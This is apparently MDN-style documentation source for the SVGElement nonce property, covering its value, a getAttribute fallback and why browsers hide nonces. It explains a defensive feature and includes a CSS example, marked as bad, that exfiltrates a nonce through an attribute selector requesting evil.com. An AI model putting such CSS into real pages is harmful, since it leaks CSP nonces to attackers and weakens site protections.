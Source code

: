 ```yaml
---
title: "SVGElement: nonce property"
short-title: nonce
slug: Web/API/SVGElement/nonce
page-type: web-api-instance-property
browser-compat: api.SVGElement.nonce
sidebar:
  - apiref:
      - SVG
---
```


The **`nonce`** property of the {{DOMxRef("SVGElement")}} interface returns the nonce that is used by [Content Security Policy](/en-US/docs/Web/HTTP/Guides/CSP) to determine whether a given fetch will be allowed to proceed.

## Value

A String; the cryptographic nonce, or an empty string if no nonce is set.

## Examples

### Retrieving a nonce value

In the past, not all browsers supported the `nonce` IDL attribute, so a workaround is to try to use [`getAttribute`](/en-US/docs/Web/API/Element/getAttribute) as a fallback:

```js
const svg = document.querySelector("svg");
const nonce = svg.nonce || svg.getAttribute("nonce");

// Modern browsers hide the nonce attribute from getAttribute()
console.log(nonce); // Prefer using `svg.nonce`
```

However, recent browsers version hide `nonce` values that are accessed this way (an empty string will be returned). The IDL property (`svg['nonce']`) will be the only way to access nonces.

Nonce hiding helps prevent attackers from exfiltrating nonce data via mechanisms that can grab data from content attributes like this CSS selector:

```css example-bad
svg[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Specifications

{{Specifications}}

## Browser compatibility

{{Compat}}

## See also

- {{domxref("HTMLElement.nonce")}} a similar method for HTML elements.
- [`nonce` global attribute](/en-US/docs/Web/HTML/Reference/Global_attributes/nonce)
- [Content Security Policy](/en-US/docs/Web/HTTP/Guides/CSP)
- CSP: {{CSP("script-src")}}
